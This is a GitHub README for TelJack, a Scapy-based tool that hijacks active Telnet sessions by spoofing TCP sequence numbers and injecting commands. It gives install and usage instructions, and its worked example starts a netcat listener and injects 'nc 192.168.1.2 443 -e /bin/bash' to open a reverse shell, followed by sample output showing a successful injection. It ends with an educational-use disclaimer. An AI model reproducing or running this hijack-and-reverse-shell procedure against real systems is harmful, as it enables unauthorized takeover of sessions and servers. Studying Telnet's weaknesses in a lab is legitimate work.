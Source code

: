 # TelJack
## Telnet Session Hijacking & Command Injection Tool
TelJack intercepts an active Telnet session between a client and a server, and once intercepted, injects a specified command into the session, making the server execute it as if it came from the legitimate client.

## Features
* Detects active Telnet sessions.
* Injects specified commands into the session.
* Acknowledges the server's echo of the injected command.
* Uses Scapy for packet sniffing and crafting.

## Prerequisites
* Python 3.x
* Scapy

## Installation
1. Ensure you have Python 3 installed.
2. Install Scapy:

```bash
pip install scapy
```

## Usage
```bash
sudo python3 teljack.py -t [TARGET_IP] -p [TARGET_PORT] -c "[COMMAND_TO_INJECT]"
```
* `TARGET_IP`: IP address of the target Telnet server.
* `TARGET_PORT`: Port number for the target Telnet server. Defaults to 23.
* `COMMAND_TO_INJECT`: The command you wish to inject into the Telnet session.

**Example:**
1. Start a netcat server to catch a reverse shell.
```bash
nc -nlvp 443
```
2. Start listening to the target Telnet server using the default port with a reverse shell command.
```bash
sudo python3 teljack.py -t 192.168.1.5 -c "nc 192.168.1.2 443 -e /bin/bash"
```
3. The script will listen for a Telnet connection, identify the client and wait for the perfect opportunity to inject the command. 

If successful the output will look like:
```bash
sudo python3 teljack.py -t 192.168.1.5 -c "nc 192.168.1.2 443 -e /bin/bash"
Starting packet sniffing...
Detected victim host: 192.168.1.4
Detected victim port: 58608
Preparing to send command: b'nc 192.168.1.2 443 -e /bin/bash'
Sending command with SEQ: 3918542522 and ACK: 1174627735
***
Command sent successfully!
***
Server ECHO with SEQ: 1174627774 and ACK: 3918542555: n
Acknowledgement of echo sent to server with SEQ: 3918542555 and ACK: 1174627777
SUCCESS!
```

## How It Works
1. **Initialization**: The script starts by setting up necessary parameters, such as the target server's IP address, the Telnet port, and the command you wish to inject.
2. **Packet Sniffing**: The script begins listening to network traffic, specifically looking for TCP packets related to the specified Telnet server.
3. **Victim Detection**: As it sniffs the packets, the script identifies the victim's IP address and port by observing the traffic directed towards the target server.
4. **Command Injection**: Once the victim is detected, the script waits for the right moment (typically after the victim sends a command) to inject the specified command into the session.
5. **Echo Detection**: After sending the command, the server might echo back part or all of the injected command. The script detects this echo.
6. **Acknowledgment**: Upon detecting the server's echo, the script sends a TCP acknowledgment.

## Disclaimer
This tool is intended for educational and demonstration purposes only. Unauthorized access to computer systems is illegal and unethical. Always obtain explicit permission before using this tool on any system. The author holds no responsibility for improper or illegal usage.